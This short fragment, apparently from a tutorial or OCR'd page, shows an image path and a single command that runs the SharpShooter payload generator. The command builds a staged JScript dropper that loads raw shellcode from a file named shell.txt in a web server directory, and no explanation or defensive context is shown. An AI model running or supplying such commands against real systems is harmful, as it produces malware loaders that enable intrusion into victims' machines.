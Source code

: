 1


2
sudo python SharpShooter.py --payload js --dotnetver 4 --staged --rawscfile /var/www/html/shell.txt --output test